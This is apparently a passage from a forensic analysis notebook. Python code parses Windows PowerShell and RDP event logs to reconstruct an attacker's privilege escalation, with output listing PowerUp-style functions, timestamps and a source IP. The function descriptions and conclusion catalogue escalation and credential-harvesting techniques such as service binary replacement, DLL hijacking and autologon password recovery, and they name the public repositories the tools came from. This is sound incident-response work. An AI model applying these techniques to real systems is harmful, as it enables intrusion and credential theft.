Checks if any of the AlwaysInstallElevated registry keys are set.
> Find-ProcessDLLHijack
Description:
Finds all DLL hijack locations for currently running processes.
> Install-ServiceBinary
Description:
Replaces the service binary for the specified service with one that executes
a specified command as SYSTEM.
> Invoke-ServiceAbuse
Description:
Abuses a function the current user has configuration rights on in order
to add a local administrator or execute a custom command.
> Test-ServiceDaclPermission
Description:
Tests one or more passed services or service names against a given permission set,
returning the service objects where the current user have the specified permissions.
> Get-ProcessTokenType
Description:
Returns the token type and impersonation level.
> Get-ProcessTokenGroup
Description:
Returns all SIDs that the current token context is a part of, whether they are disabled or not.
> Get-ModifiablePath
Description:
Parses a passed string containing multiple possible file/folder paths and returns
the file paths where the current user has modification rights.
> New-InMemoryModule
Description:
Creates an in-memory assembly and module
> local:Get-GPPInnerField
Description:
Writes out a precompiled MSI installer that prompts for a user/group addition.
This function can be used to abuse Get-RegistryAlwaysInstallElevated.
> Get-ApplicationHost
Description:
Recovers encrypted application pool and virtual directory passwords from the applicationHost.config on the system.
> Get-RegistryAutoLogon
Description:
Finds any autologon credentials left in the registry.
> Find-PathDLLHijack
Description:
Finds all directories in the system %PATH% that are modifiable by the current user.
> Write-ServiceBinary
Description:
Patches in the specified command to a pre-compiled C# service executable and
writes the binary out to the specified ServicePath location.
> Get-UnquotedService
Description:
Returns the name and binary path for services with unquoted paths
that also have a space in the name.
> Enable-Privilege
Description:
Enables a specific privilege for the current process.
5) What is the TaskDisplayName for these messages
> PowerShell Console Startup
> PowerShell Named Pipe IPC
> Executing Pipeline
> Execute a Remote Command
6) What is the date and time of these actions
Date Time
22/10/2020 15:06:50 43
15:06:14 36
15:03:18 3
15:03:20 3
15:03:45 3
15:05:24 3
15:05:29 3
15:05:47 3
15:06:13 3
15:07:08 3
15:09:40 3
15:12:18 3
15:02:56 2
15:03:34 2
15:06:15 2
15:07:01 2
14:11:16 1
14:11:18 1
14:11:21 1
15:02:55 1
15:03:35 1
26/10/2020 08:54:11 3
08:58:27 3
19:39:48 3
19:39:26 2
08:53:41 1
08:53:46 1
08:53:49 1
19:38:38 1
19:38:44 1
19:38:50 1
19:39:25 1
Name: Time, dtype: int64
with open("simple_analysis_reports/6_SUMMARY_report_on_successful_actions.txt", 'w') as fh:
fh.write("1) How many were successful\n")
fh.write(f"{sum(powershell_df.failed == 0)}\n")
fh.write("\n2) Which account executed them\n")
for user in powershell_df[powershell_df.failed == 0]["UserContext"].unique():
if user is not None:
fh.write(f"> {user}\n")
fh.write("\n3) The (unique) URLs embedded in the scripts:\n")
to_print = []
for links in powershell_df[powershell_df.failed == 0]["URLs"]:
for link in pd.Series(links, dtype="object").unique():
to_print.append(link)
for url in pd.Series(to_print).unique():
fh.write(f"> {url}\n")
fh.write("\n4) Which functions of the script got executed\n")
repetitions = []
for index in range(len(powershell_df[powershell_df.failed == 0])):
function = powershell_df[powershell_df.failed == 0]["FunctionName"].iloc[index]
description = powershell_df[powershell_df.failed == 0]["FunctionDescription"].iloc[index]
if (function is not None) and (function not in repetitions):
fh.write(f"\n> {function}\n")
repetitions.append(function)
fh.write(f"\nDescription:\n{description}\n")
else:
continue
fh.write("\n5) What is the TaskDisplayName for these messages\n")
for taskName in powershell_df[powershell_df.failed == 0]["TaskDisplayName"].unique():
fh.write(f"> {taskName}\n")
fh.write("\n6) What is the date and time of these actions\n")
for record in powershell_df[powershell_df.failed == 0][["Date", "Time"]].iterrows():
fh.write(f"{record[1][0]} {record[1][1]}\n")
Activity visualization¶
Last but not least, we can visualize the activity of the PowerShell actions.
timeseries_df = pd.DataFrame(powershell_df[["Date", "Time"]].value_counts()).reset_index()
timesteps = timeseries_df[["Date", "Time"]].agg(" ".join, axis=1)
timeseries_df = timeseries_df.assign(timestep=timesteps)
timeseries_df = timeseries_df.sort_values(by=["Date", "Time"])
timeseries_df.sort_values(by="Date")
plt.figure(figsize=(15,15))
sns.lineplot(data=timeseries_df, x="timestep", y=0)
plt.xlabel("Time Step")
plt.ylabel("Number of events")
plt.xticks(rotation=45)
plt.savefig("simple_analysis_reports/activity_visualization.PNG")
plt.show()

Usage of services during the time of the malicious activity¶
Additionally, from the LogName attribute, we can retrieve information about the services used during an event occurrence. One of the value indicates that rows containing it may be related to a remote activity.
tmp = cleaned_data[cleaned_data.LogName == "Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational"]
print(pd.DataFrame(tmp["Message"]).iloc[-6][0])
print(pd.DataFrame(tmp["Date"]).iloc[-6][0])
print(pd.DataFrame(tmp["Time"]).iloc[-6][0])
Remote Desktop Services: User authentication succeeded:
User: user
Domain:
Source Network Address: 22.22.22.136
22/10/2020
15:30:53
for i in range(len(tmp)):
if "User authentication succeeded" in tmp["Message"].iloc[i]:
print(tmp["Time"].iloc[i], tmp["Date"].iloc[i], tmp["Message"].iloc[i], "\n")
11:55:22 23/10/2020 Remote Desktop Services: User authentication succeeded:
User: user
Domain:
Source Network Address: 22.22.22.136
15:38:57 22/10/2020 Remote Desktop Services: User authentication succeeded:
User: user
Domain:
Source Network Address: 22.22.22.136
15:30:53 22/10/2020 Remote Desktop Services: User authentication succeeded:
User: user
Domain:
Source Network Address: 22.22.22.136
Conclusion¶
As seen in the report, the attackers executed 19 functions allowing for gathering credentials, elevating privileges and changing configurations. There were 140 successful operations, executed in the context of user user on the WIN-PTFPHFCRDJ0 device.
The URLs present in these messages suggest that some resources hosted by the attackers were accessed by scripts, however, some URLs seem like references for functions descriptions. The resources accessed by scripts are possibly:
gistfile1.txt (some text file)
PostExploitation.psm1 (PowerShell post-exploitation module aimed at retrieving information about possible privilege escalation vectors.
windows_autologin.rb (Ruby module which extracts the plain-text Windows user login password in Registry)
PSReflect.psm1. (PowerShell module for interacting with Win32 data structures and functions in memory)
It is quite clear that most of the modules were retrieved from repositories containing post-exploitation scripts. They can be found at:
https://github.com/mattifestation/PSReflect (PSReflect)
https://github.com/darkoperator/Posh-SecMod (Posh-SecModule project)
or as a part of Rapid7 Metasploit Framework’s post-exploitation tools.
The attackers might have gained administrative access to the system and might have established persistence on it. The messages suggest that the following actions were performed:
bypassing the User Account Control (UAC)
installing malicious software using Get-RegistryAlwaysInstallElevated
obtaining third-party software passwords - for example for McAfee products
obtaining information on the scheduled tasks using Get-ModifiableScheduledTaskFile function (after modifications to these tasks, elevated context might have been obtained)
performing DLL hijacking
replacing a legitimate service binary with a malicious one
abusing the functionality of a service to perform additional activities in an elevated context
performing token impersonation
obtaining credentials through: autologon features, getting encrypted passwords from application pool and virtual directories abusing applicationHost.config file
enabling a certain privilege for a process
There is no evidence on obtaining domain persistence in terms of the golden or silver keys which could have been captured using Mimikatz.
The temporal activity indicates that priviledge escalation was performed on the 22nd October from around 15:00 and possibly finished successfully by around 15:15. At 15:30 the first RDP connection was established from a node of an IP address: 22.22.22.136.
As a form of backing up our findings, we can save the messages related to successful actions to the disk
with open("simple_analysis_reports/7_all_successful_actions.txt", 'w') as fh:
corrected_index = 0
for index in range(len(powershell_df[powershell_df.failed == 0])-1, -1, -1):
corrected_index += 1
message = powershell_df[powershell_df.failed == 0]["Message"].iloc[index]
fh.write(f"\n\n\nMessage: {corrected_index}\n{message}\n\n\n")
We can exclude some messages from the file
exclude1 = "PowerShell console is starting up"
exclude2 = "Windows PowerShell has started an IPC listening thread on process"
exclude3 = "PowerShell console is ready for user input"
with open("simple_analysis_reports/8_unique_successful_actions.txt", 'w') as fh:
corrected_index = 0
repeated = []
for index in range(len(powershell_df[powershell_df.failed == 0])-1, -1, -1):
corrected_index += 1
message = powershell_df[powershell_df.failed == 0]["Message"].iloc[index]
if (message in repeated) or (exclude1 in message) or (exclude2 in message) or (exclude3 in message):
continue
else:
fh.write(f"\n\n\nMessage: {corrected_index}\n{message}\n\n\n")
repeated.append(message)
The analysis focused on some specific messages due to immediate identification of the subset of interest. As seen below, the analysis focused on 0.93% of all messages which were contained in the log files. For the other part of the corpus other techniques can be used.
print(f"{round(len(powershell_df.Message) / len(cleaned_data.Message) * 100, 3)}%")
0.927%